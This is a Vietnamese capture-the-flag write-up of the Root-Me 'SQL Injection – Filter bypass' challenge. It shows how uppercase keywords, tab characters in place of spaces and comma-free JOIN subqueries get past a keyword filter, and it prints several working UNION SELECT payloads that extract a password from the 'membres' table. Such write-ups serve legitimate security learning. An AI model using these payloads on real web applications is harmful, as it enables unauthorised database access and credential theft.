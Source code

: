 # S[QL Injection – Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Filter-bypass)

Challenge này có cấu trúc tương tự các bài SQL đã làm, tab Membres có câu query `id=1` và chỉ có ở đây có thể tiêm payload vào. Tuy vậy, đời không như là mơ, ta bị reject:

![](./media/image1.png)

Mở burpsuite lên và thử fuzz tìm filter của nó thôi!

Với comment của tác giả, ta đã xác định được database gồm 4 cột:

![](./media/image2.png)

Sau 20 phút ngồi fuzz không thành, thôi thì bỏ vào intruder để brute thử:

![](./media/image3.png)

Có vẻ là server đã chặn hết các từ khóa luôn. Stuck tiếp 1 tiếng. Thử test lại với uppercase các keyword thì thấy qua được filter:

![](./media/image4.png)

-   Uppercase các keyword

Đời không như là mơ, đến lúc này, server filter hết các ký tự **“+”**, **“%20”** và **“whitespace”**:

![](./media/image5.png)

Stackoverflow bảo hãy thử các ký tự **/**/ %00 %09 %0a %0d** để bypass. Thì thấy `%00` bypass được:

![](./media/image6.png)

Tuy nhiên, tiếp tục fuzz với `%00` thì vẫn không có kết quả gì trả về:

![](./media/image7.png)

Quay ngược lại thử %09 (vì lúc thử đến `%00` bypass được nên không thử nữa) thì thấy cũng bypass được. Tra trên URL Encoding thì biết đây là ký tự Tab:

![](./media/image8.png)

Ngồi fuzz và ta đã có payload có thể tiêm:
`1%09UNION%09SELECT%09*%09FROM%09membres%09LIMIT%091%09OFFSET%090`

Ở trên, ta đã biết được 4 cột của database. Giờ thì thử thách tiếp theo là bypass dấu **‘,’**. Tuy nhiên, có vẻ như không có cách nào thay thế được dấu ‘,’ cả.

Sau khi lượn trên các mặt trận, em tìm được cấu trúc query sử dụng cross join để JOIN multi query trong subqueries để có thể truy xuất nhiều cột không cần sử dụng **‘comma’**:
`union select * from ((select 1)A join (select 2)B join (select group_concat(user(),' ',database(),' ',@@datadir))C);`

![](./media/image9.png)

Thử áp dụng payload trên và các lưu ý từ đầu, ta có payload:
`1 UNION SELECT * FROM (SELECT 123) AS a JOIN (SELECT 456) AS b JOIN (SELECT 123) AS c JOIN (SELECT pass FROM membres LIMIT 1) AS d) LIMIT 1 OFFSET 0`

Payload để tiêm:
`1%09UNION%09SELECT%09*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%090`

![](./media/image10.png)

Không hiểu sao nó chỉ trả về giá trị như lúc đầu tiêm. Ngồi stuck một hồi nữa và thử đổi payload thì mới phát hiện ra quên thay đổi OFFSET từ 0 1 vì mình đã query id=1. Thay đổi payload:
`1%09UNION%09SELECT%09*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%091`

![](./media/image11.png)

-   Tìm được password: **KLfgy******************sqli**

![](./media/image12.png)

- Flag: "****************************"
